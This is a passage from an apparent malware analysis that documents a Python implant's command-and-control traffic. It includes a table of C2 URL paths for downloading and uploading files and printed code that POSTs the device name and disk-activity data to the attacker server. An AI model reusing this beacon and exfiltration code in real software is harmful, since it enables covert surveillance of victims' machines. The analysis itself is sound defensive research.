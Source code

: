 
/zoailloaze/sfuxmiibif/nyrvoz
Download URL.
beau


/zoailloaze/sfuxmiibif/hortense1
Upload file.
beau, type, FComp, terrel



Table 4. Paths and parameters used during C2 interactions and their functionality..
Interacting with C2 Operator
Based on the main activity loop, there will be a periodic call to the C2 server, and it will begin by sending information regarding the device (device identifier), as well as the last modified time in disk.


Python


def Chick_Request():
   global FranDrescher
   global WD
   global Wv
   url = FranDrescher + '/zoailloaze/sfuxmiibif/lashawna'
   ur = requests.post(url, data={'beau': name_device + ';' + str(getLastModDir(4))})
   resArr = ur.text
   Im_extin = resArr.split(';')[0]




12345678

def Chick_Request():   global FranDrescher   global WD   global Wv   url = FranDrescher + '/zoailloaze/sfuxmiibif/lashawna'   ur = requests.post(url, data={'beau': name_device + ';' + str(getLastModDir(4))})   resArr = ur.text   Im_extin = resArr.split(';')[0]





It's interesting to see how this captures the latest disk activity date. The code shows that it is incomplete, as in this case, the type is ‘4’, and it will always return the string ‘empty’ instead of any kind of date:


Python


def getLastModDir(type):
   try:
       c = wmi.WMI()
       Mv = ''
       for drive in c.Win32_LogicalDisk(DriveType=type):
           Mv = drive.Caption

       last_date = ''
       dirpath = Mv
       entries = (os.path.join(dirpath, fn) for fn in os.listdir(dirpath))
       entries = ((os.stat(path), path) for path in entries)
       entries = ((stat[ST_MTIME], path) for stat, path in entries if S_ISREG(stat[ST_MODE]))
       for cdate, path in entries:
           last_date = datetime.datetime.fromtimestamp(cdate)
